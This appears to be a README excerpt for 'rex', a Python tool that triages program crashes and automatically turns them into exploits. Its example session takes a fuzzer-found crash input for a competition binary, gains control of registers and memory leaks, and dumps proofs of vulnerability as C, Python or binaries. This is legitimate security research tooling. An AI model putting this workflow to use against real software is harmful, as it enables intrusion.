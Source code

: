 ### Rex

At the moment rex offers a couple of features, crash triaging, crash exploration, and exploitation for certain kinds of crashes.

In the example below, we take a crashing input for `legit_00003` discovered by AFL. The vulnerability is a simple buffer overflow on the stack, however, before the vulnerable function returns it calls memcpy with a destination parameter which was overwritten during the stack smash.
While rex doesn't know how to exploit an arbitrary memcpy call (yet), it can be told to explore the crash until it finds an exploitation primitive which it knows how to exploit.

Exploit objects can take a crashing input and will attempt to turn it into an exploit which can set every register and leak data from an arbitrary address.

```python
# triage a crash
>>> crash = rex.Crash("../binaries-private/defcon24/legit_00003", "\x00\x0b1\xc1\x00\x0c\xeb\xe4\xf1\xf1\x14\r\rM\r\xf3\x1b\r\r\r~\x7f\x1b\xe3\x0c`_222\r\rM\r\xf3\x1b\r\x7f\x002\x7f~\x7f\xe2\xff\x7f\xff\xff\x8b\xc7\xc9\x83\x8b\x0c\xeb\x80\x002\xac\xe2\xff\xff\x00t\x8bt\x8bt_o_\x00t\x8b\xc7\xdd\x83\xc2t~n~~\xac\xe2\xff\xff_k_\x00t\x8b\xc7\xdd\x83\xc2t~n~~\xac\xe2\xff\xff\x00t\x8bt\x8b\xac\xf1\x83\xc2t~c\x00\x00\x00~~\x7f\xe2\xff\xff\x00t\x9e\xac\xe2\xf1\xf2@\x83\xc3t")
>>> crash.crash_type
'write_what_where'
>>> crash.explorable()
True
# explore the crash by setting segfaulting pointers to sane values and re-tracing
>>> crash.explore()
# now we can see that we control instruction pointer
>>> crash.crash_type
'ip_overwrite'
# generate exploits based off of this crash
>>> arsenal = crash.exploit()
# we generated a type 1 POV for every register
>>> arsenal.register_setters.keys()
['esp', 'edi', 'eax', 'ebp', 'edx', 'ebx', 'esi', 'ecx']
# and one Type 2 which can leak arbitrary memory
>>> len(arsenal.leakers)
1
# exploits are graded based on reliability, and what kind of defenses they can
# bypass, the two best exploits put in the 'best_type1' and 'best_type2' attributes
>>> arsenal.best_type1.register
'esi'
# exploits can be dumped in C, Python, or as a compiled POV
>>> arsenal.best_type2.dump_c('legit_x.c')
>>> arsenal.best_type2.dump_python('legit_x.py')
>>> arsenal.best_type2.dump_binary('legit_x.pov')
# also POVs can be tested against a simulation of the CGC architecture
>>> arsenal.best_type1.test_binary()
True
```
